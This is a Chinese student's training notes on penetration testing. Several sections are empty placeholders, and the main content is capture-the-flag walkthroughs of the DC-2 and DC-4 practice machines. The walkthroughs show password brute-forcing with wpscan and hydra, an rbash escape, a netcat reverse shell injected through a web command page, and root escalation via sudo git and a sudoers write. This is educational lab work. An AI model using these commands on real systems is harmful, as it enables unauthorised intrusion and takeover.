 ```yaml
---
title: 《软件综合训练》实训笔记
tags:
  - 信息安全
  - Kali Linux
  - DUT
categories: 读书笔记
abstract: 大连理工大学计算机工程专业软件综合训练信息安全方向实训笔记
abbrlink: '4849'
date: 2019-09-14 12:41:57
---
```

## 学习环境准备
---

### WSL2上的Kali Linux

- 在Windows“程序与功能”中确认开启WSL(Windows Subsystem for Linux)之后，Kali Linux子系统的安装步骤如下：
    1. 打开Windows应用商店，商店内搜索Kali Linux，下载并安装。（大小约为200M）
    
    2. 启动Kali，等待一段时间后会提示

### 虚拟机与靶机资源

- PASS

### 远程访问内网的两种方案

- PASS

#### Windows内置VPN

- PASS

#### NetShell端口转发

- PASS

## 基础技能学习
---

### 扫描技术
#### AWVS扫描器

- PASS

#### Nessus扫描器

- Nessus的安装步骤如下:
    1. Nessus需要注册码，对于个人用户注册是免费的，注册地址是[https://zh-cn.tenable.com/products/nessus/nessus-essentials](https://zh-cn.tenable.com/products/nessus/nessus-essentials)，注册后很快就能在预留邮箱中收到你的注册码。
    
    2. 下载Nessus，这里以Windows 10为例，下载64位的Nessus软件，下载地址是[https://www.tenable.com/downloads/nessus](https://www.tenable.com/downloads/nessus)，其他系统和版本的Nessus应用这里也有下载地址。
    
    3. 安装Nessus，打开应用，忽视掉https的安全风险提示，继续打开页面，选择``Nessus Essentials``产品，输入注册码，并设定用户名和密码，等待一段时间，这段时间里会完成插件下载和安装。如果安装失败，可以进入安装目录，通过以管理员权限启动命令行，通过CLI工具修复。
    ```
    cd "C:\Program Files\Tenable\Nessus"
    nessuscli update
    ```
    
- 以``Nessus Advanced Scan``为例，Nessus的扫描结果如下，下图一份是简要的报告，从中可以看出``Nessus Advanced Scan``的部分扫描功能：
![](https://raw.githubusercontent.com/Bye-lemon/Pictures/master/20190916141337.png)

### 提权技术
#### Redis - Crontab提权

- PASS

#### Windows、Linux提权

- PASS

#### MySQL提权

- PASS


## 靶机渗透和夺旗笔记
---
### DC-2

- DC-2靶机渗透笔记：
    1. 通过``ip a``指令查看本机IP，其地址为``192.168.136.128/24``，通过``nmap -sT 192.168.136.128/24``扫描局域网，获取DC-2靶机的地址。
    ![](https://raw.githubusercontent.com/Bye-lemon/Pictures/master/20190918133937.PNG)
    ![](https://raw.githubusercontent.com/Bye-lemon/Pictures/master/20190918134153.PNG)
    
    2. 发现靶机地址为``192.168.136.130``，通过``nmap -p- -A 192.168.136.130``扫描靶机端口。
    ![](https://raw.githubusercontent.com/Bye-lemon/Pictures/master/20190918134326.PNG)
    
    3. 发现了靶机80端口开放了一个Wordpress网页，并在7744端口开放了SSH服务，先做一个本地DNS解析，在``/etc/hosts``中添加一条记录``192.168.136.130  dc-2``，打开FireFox浏览器，访问[http://dc-2](http://dc-2)，在博客页面可以看到Flag1。
    ![](https://raw.githubusercontent.com/Bye-lemon/Pictures/master/20190918135007.PNG)
    ![](https://raw.githubusercontent.com/Bye-lemon/Pictures/master/20190918135041.PNG)
    
    4. Flag1提示可以使用``cewl``工具获取字典，在终端执行``cewl http://dc-2 -w passwd.txt``，使用``wpscan``工具对Wordpress站点进行扫描，运行``wpscan --url dc-2 -e p -e t -e u``扫描站点，发现了``admin``、``jerry``、``tom``三个用户，使用``wpscan --url dc-2 -P passwd.txt``命令调用密码字典对用户密码进行爆破，得到两组用户名和密码。
    ![](https://raw.githubusercontent.com/Bye-lemon/Pictures/master/20190918140259.PNG)
    ![](https://raw.githubusercontent.com/Bye-lemon/Pictures/master/20190918140348.PNG)
    
    5. 分别尝试使用Tom和Jerry的身份登录站点（Wordpress的后台登陆地址是[http://dc-2/wp-login.php](http://dc-2/wp-login.php)），Tom的身份下一无所获，Jerry的身份中有一篇文章，里面有第二条线索。
    ![](https://raw.githubusercontent.com/Bye-lemon/Pictures/master/20190918140617.PNG)
    ![](https://raw.githubusercontent.com/Bye-lemon/Pictures/master/20190918140757.PNG)
    
    6. Flag2提示我们应该寻找新的入口，之前端口扫描的结果中，在靶机的7744端口上有SSH服务，所以使用Tom和Jerry的身份继续尝试SSH链接。使用``ssh tom@192.168.136.130 -p 7744``输入密码成功连入靶机，在Tom的用户目录下发现了Flag3，但是不能使用cat命令打开，提示``-rbash: cat: command not found``，查看tom用户环境变量下的bin目录，发现可以使用vi编辑器，于是可以通过vi来绕过rbash限制。
    ![](https://raw.githubusercontent.com/Bye-lemon/Pictures/master/20190918142651.PNG)
        ```bash
        # Bash
        vi
        
        # VI Editor
        :set shell=/bin/sh
        :shell
        ```
    7. 绕过rbash限制之后，重设``SHELL``和``PATH``的环境变量，这时``cat``命令已经可以使用，通过``cat flag3.txt``可以看到下一步的提示。
    ![](https://raw.githubusercontent.com/Bye-lemon/Pictures/master/20190918142241.PNG)
    
    8. Flag3提示可能需要切换到Jerry用户下，使用``su jerry``命令，输入密码，在当前目录下发现第四个Flag，使用``cat``命令查看。
    ![](https://raw.githubusercontent.com/Bye-lemon/Pictures/master/20190918142744.PNG)
    
    9. Flag4中提到了git，通过``sudo -l``可以发现Jerry可以无密码的执行git命令。于是使用``sudo git help add``打开Git帮助信息，输入``!/bin/bash``进行git提权，打开一个拥有root用户的命令行，在root用户的``home``目录下，我们发现了最终的Flag，渗透结束。
    ![](https://raw.githubusercontent.com/Bye-lemon/Pictures/master/20190918143311.PNG)
    ![](https://raw.githubusercontent.com/Bye-lemon/Pictures/master/20190918143333.PNG)

### DC-4

- DC-4靶机渗透笔记：
    1. 通过``ip a``指令查看本机IP，其地址为``192.168.136.128/24``，通过``nmap -sT 192.168.136.128/24``扫描局域网，获取DC-2靶机的地址。
    ![](https://raw.githubusercontent.com/Bye-lemon/Pictures/master/20190918194535.PNG)
    
    2. 发现靶机地址为``192.168.136.131``，通过``nmap -p- -A 192.168.136.131``扫描靶机端口。
    ![](https://raw.githubusercontent.com/Bye-lemon/Pictures/master/20190918194614.PNG)
    
    3. 从扫描结果可知，靶机的80端口上运行了一个Web应用，打开应用，发现只有一个登陆页面，使用``hydra``对admin用户进行爆破，运行``hydra -l admin -P /usr/share/wordlists/rockyou.txt -t 10 dc-4 http-form-post "/login.php:username=^USER^&password=^PASS^:S=logout" -F``命令，爆破结果显示，使用密码``happy``可以登录admin用户。
    ![](https://raw.githubusercontent.com/Bye-lemon/Pictures/master/20190918195131.PNG)
    ![](https://raw.githubusercontent.com/Bye-lemon/Pictures/master/20190918195200.PNG)
    
    4. 登录之后发现，该页面可以在线执行命令，于是尝试在前端修改对应的命令，将靶机的终端反射到Kali上。在终端运行``nc -lvp 7777``监听7777端口，修改网页中的指令为``nc -nv 192.168.136.128 7777 -e /bin/bash``，点击执行后，就会发现本地终端建立了靶机的连接。
    ![](https://raw.githubusercontent.com/Bye-lemon/Pictures/master/20190918200420.PNG)
    ![](https://raw.githubusercontent.com/Bye-lemon/Pictures/master/20190918200503.PNG)
    
    5. 运行``python -c 'import pty; pty.spawn("/bin/bash")'``打开终端，在靶机中可以发现``/home``目录下有三个用户，``Charles``、``Jim``、``Sam``，继续访问发现Jim的用户目录下有一个``backups``文件夹，里面有一份名为``old-passwords.bak``的文件，将其下载到本地，通过``hydra``针对靶机的Jim用户进行SSH的登录爆破，发现密码是``jibril04``。
    ![](https://raw.githubusercontent.com/Bye-lemon/Pictures/master/20190918202244.PNG)
    
    6. 运行``ssh jim@dc-4``用刚刚获得的密码登录靶机，发现有一封邮件的提示，切换到``/var/mail``文件夹下，查看Jim邮件，在邮件中，我们可以获得到Charles的密码。
    ![](https://raw.githubusercontent.com/Bye-lemon/Pictures/master/20190918204437.PNG)
    
    7. 执行``su charles``命令，使用刚刚邮件中获得密码切换到Charles用户。通过``sudo -l``命令，发现该用户可以无密码的执行``teehee``命令，通过``teehee --help``指令，我们发现该指令有写入文件的权限，于是我们通过``echo "charles ALL=(ALL:ALL) ALL" | sudo teehee -a /etc/sudoers``命令进行提权。
    ![](https://raw.githubusercontent.com/Bye-lemon/Pictures/master/20190918204831.PNG)
    ![](https://raw.githubusercontent.com/Bye-lemon/Pictures/master/20190918204849.PNG)
    
    8. 获得Super权限之后，在root用户的目录下即可看到最终的Flag。
    ![](https://raw.githubusercontent.com/Bye-lemon/Pictures/master/20190918205347.PNG)